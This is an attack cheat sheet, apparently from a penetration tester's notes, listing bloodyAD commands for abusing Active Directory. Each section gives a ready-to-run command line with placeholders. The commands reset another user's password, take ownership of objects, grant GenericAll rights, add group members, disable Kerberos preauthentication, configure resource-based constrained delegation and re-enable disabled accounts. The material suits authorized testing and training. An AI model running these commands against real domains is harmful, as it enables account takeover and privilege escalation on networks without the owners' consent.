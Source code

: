 # bloodyad
#plateform/linux #target/remote #cat/ATTACK

## Set password
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set password '<target_user>' '<new_passwd|Password123!>'
```

## Get writable
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' get writable
```

## Set owner
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set owner '<target_obj>' '<our_acc>'
```

## Add GenericAll
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add genericAll '<target_obj>' '<our_acc>'
```

## Add group member
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add groupMember '<group>' '<member>'
```

## Disable preauth
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add uac '<target_obj>' -f DONT_REQ_PREAUTH
```

## Add RBCD
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add rbcd '<target_obj>' '<service_acc>'
```

## Enable Account
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd' remove uac 'account' -f ACCOUNTDISABLE
```
